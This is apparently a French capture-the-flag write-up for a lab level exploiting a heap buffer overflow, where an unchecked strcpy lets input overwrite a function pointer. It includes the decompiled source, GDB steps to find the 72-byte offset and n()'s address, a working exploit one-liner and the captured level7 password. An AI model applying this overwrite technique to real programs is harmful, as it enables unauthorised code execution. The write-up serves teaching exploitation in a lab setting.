 # Niveau 6: Débordement de Tampon sur le Tas et Détournement de Pointeur de Fonction

## Aperçu du Défi

Le niveau 6 implique l'exploitation d'une vulnérabilité de débordement de tampon sur le tas (heap overflow) pour récupérer le mot de passe du niveau suivant.

## Code Source

En utilisant Ghidra, on obtient un code source du binaire qui ressemble à ceci:

```c
void n(void)
{
  system("/bin/cat /home/user/level7/.pass");
  return;
}

void m(void *param_1, int param_2, char *param_3, int param_4, int param_5)
{
  puts("Nope");
  return;
}

int main(int argc, char **argv)
{
  char *buffer;
  void (**function_ptr)(void);

  buffer = (char *)malloc(64);
  function_ptr = malloc(4);
  *function_ptr = m;
  strcpy(buffer, argv[1]);
  (*function_ptr)();
  return 0;
}
```

## Analyse du Code Source

En examinant le code source, nous pouvons identifier une vulnérabilité de débordement de tampon sur le tas:

1. Le programme alloue un tampon de 64 octets sur le tas avec `malloc()`
2. Il alloue ensuite un pointeur de fonction de 4 octets sur le tas et le fait pointer vers la fonction `m()`
3. Il copie l'entrée utilisateur dans le tampon en utilisant `strcpy()` sans vérification de taille
4. Enfin, il appelle la fonction pointée par le pointeur de fonction

Comme `strcpy()` ne vérifie pas les limites, nous pouvons déborder le tampon et potentiellement écraser le pointeur de fonction. Si nous pouvons remplacer l'adresse de `m()` par celle de `n()`, nous pouvons faire en sorte que le programme affiche le mot de passe du niveau 7.

## Vulnérabilité

La vulnérabilité réside dans l'utilisation de `strcpy()` pour copier l'entrée utilisateur dans un tampon alloué sur le tas sans vérifier la taille de l'entrée. Cela permet à un attaquant de déborder le tampon et d'écraser la mémoire adjacente, y compris le pointeur de fonction.

## Étapes d'Exploitation

1. Déterminer l'adresse de la fonction `n()`

   ```
   (gdb) disas n
   ```

2. Déterminer combien de remplissage (padding) est nécessaire pour atteindre le pointeur de fonction

   - Nous savons que le tampon fait 64 octets
   - Mais comme les deux sont alloués avec malloc, nous devons déterminer le décalage exact. Cela est dû au fait que malloc ajoute des métadonnées à chaque allocation (comme des informations de taille et des rembourrages d'alignement), créant un espace supplémentaire entre des allocations consécutives sur le tas.

3. Créer une chaîne d'exploitation avec le remplissage + l'adresse de `n`

   ```bash
   ./level6 $(python -c 'print "A"*[OFFSET] + "\x[n_ADDR]"')
   ```

4. Exécuter l'exploit et obtenir le mot de passe

## Obtention du Mot de Passe

D'abord, trouvons l'adresse de la fonction `n()`:

```
(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>:     push   %ebp
   ...
```

L'adresse de `n` est 0x08048454.

Ensuite, nous devons déterminer le décalage exact entre le tampon et le pointeur de fonction. Nous pouvons le faire en utilisant GDB en examinant les adresses mémoire des appels malloc:

```bash
(gdb) disas main
    0x0804848c <+16>:    call   0x8048350 <malloc@plt>
    0x08048491 <+21>:    mov    %eax,0x1c(%esp)
    ...
    0x0804849c <+32>:    call   0x8048350 <malloc@plt>
    0x080484a1 <+37>:    mov    %eax,0x18(%esp)
```

```
(gdb) break main
(gdb) run test
(gdb) break *0x08048491  # Point d'arrêt après le premier malloc. Le '*' indique que nous voulons nous arrêter à l'adresse de l'instruction.
(gdb) cont               # Exécute le programme jusqu'à ce qu'il atteigne le point d'arrêt
(gdb) x $eax             # Affiche l'adresse renvoyée par le premier malloc (buffer)
0x804a008:      0x00000000
(gdb) break *0x080484a1  # Point d'arrêt après le second malloc
(gdb) cont
(gdb) x $eax             # Affiche l'adresse renvoyée par le second malloc (pointeur de fonction)
0x804a050:      0x00000000
```

Calcul de la différence: 0x804a050 - 0x804a008 = 0x48 (72 en décimal)

Nous pouvons donc confirmer qu'un décalage de 72 octets est nécessaire pour atteindre et écraser le pointeur de fonction:

```bash
./level6 $(python -c 'print "A"*72 + "\x54\x84\x04\x08"')
```

Cette commande exécutera le programme avec notre entrée créée sur mesure, provoquant l'appel de la fonction `n()` qui affichera le contenu de `/home/user/level7/.pass`.

```bash
./level6 $(python -c 'print "A"*72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
